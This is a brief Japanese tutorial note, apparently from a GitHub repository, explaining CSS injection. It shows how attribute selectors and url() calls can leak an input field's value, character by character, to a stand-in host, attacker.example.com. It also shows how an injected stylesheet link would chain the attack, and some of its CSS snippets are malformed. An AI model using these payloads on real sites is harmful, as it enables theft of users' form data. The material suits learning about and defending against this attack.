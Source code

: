 # CSS Injection

- [\# CSS Injection とは](#CSS-Injection-とは)
- [\# Attribute Selector について](#Attribute-Selector-について)
- [\# CSS での HTTP Request について](#CSS-での-HTTP-Request-について)
- [\# Injection](#Injection)


## CSS Injection とは

HTML に対して CSS を挿入することで Web ページ上の機密情報の取得を狙う攻撃のこと。XSSとは異なる分類。

## Attribute Selector について

CSS には Attribute Selector と呼ばれるものがあり、ある要素の属性に条件を与え、その条件を満たす場合のみ CSS を適応する。

例) a 要素の href 属性が *http://* から始まる場合、赤色にする
```css
a[href^="http://"] {
	color: red;
}
```

## CSS での HTTP Request について

CSS では特定の URL を引数にファイル等を参照するための **URL** 関数が用意されている。

```css
body {
	background: url(http://example.com/bg.png);
}
```


## Injection

Attribute Selector と URL 関数を利用することで、属性の値を調べることができる。
簡潔に言うと、総当りする。

```css
input[value^=a] {
	url(http://attacker.example.com/?value=a);
}
input[value^=b] {
	url(http://attacker.example.com/?value=b);
}
......
```

しかし、すべての通りを記述するのは現実的でないため
*@import url(...)* を利用する

Step 1: 起点となる CSS ファイルを読み込むコードを挿入する
```html
<link rel="stylesheet" href="http://localhost:4444/evil_1.css">
```

evil_1.css
```css
input[value^=a] {
	url(http://attacker.example.com/?value=a);
}
```

evil_2.css
```css
input[value^=la] {
	url(http://attacker.example.com/?value=a);
}
```

> hidden 属性では使えなかった。抜け道あり？

> 検索ボックス内の value から検索内容を盗む？